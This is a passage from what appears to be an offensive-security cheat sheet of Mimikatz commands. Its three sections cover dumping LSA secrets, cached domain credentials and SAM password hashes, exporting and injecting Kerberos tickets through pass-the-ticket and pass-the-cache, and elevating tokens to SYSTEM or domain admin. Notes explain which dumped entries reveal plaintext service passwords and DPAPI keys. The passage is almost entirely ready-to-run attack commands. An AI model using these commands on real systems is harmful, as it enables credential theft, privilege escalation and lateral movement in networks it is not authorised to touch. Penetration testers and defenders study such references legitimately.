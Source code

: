 ### 7. LSA Secrets Extraction

**What it does:** Dumps secrets stored in the Local Security Authority, including service account passwords, auto-logon credentials, and cached domain credentials.

```powershell
# Dump LSA secrets from memory (requires SYSTEM)
mimikatz # lsadump::secrets

# Dump cached domain credentials (for offline domain login)
mimikatz # lsadump::cache

# Dump SAM database (local user hashes)
mimikatz # lsadump::sam
```

**What you'll find:**
- `_SC_*` entries: Service account passwords in plaintext
- `DPAPI_SYSTEM`: Master key for DPAPI decryption
- `DefaultPassword`: Auto-logon credentials
- `NL$KM`: Cached domain credentials encryption key

---

### 8. Ticket Manipulation

```powershell
# List all Kerberos tickets in memory
mimikatz # kerberos::list

# Export all tickets
mimikatz # kerberos::list /export

# Purge all tickets (useful for testing)
mimikatz # kerberos::purge

# Pass-the-Ticket (inject ticket)
mimikatz # kerberos::ptt ticket.kirbi

# Pass-the-Cache (convert Linux ccache to kirbi)
mimikatz # kerberos::ptc credential.ccache
```

---

### 9. Token Manipulation & Privilege Escalation

```powershell
# List available tokens
mimikatz # token::list

# Elevate to SYSTEM
mimikatz # token::elevate

# Elevate to specific privileges
mimikatz # token::elevate /domainadmin

# Revert to original token
mimikatz # token::revert
```

---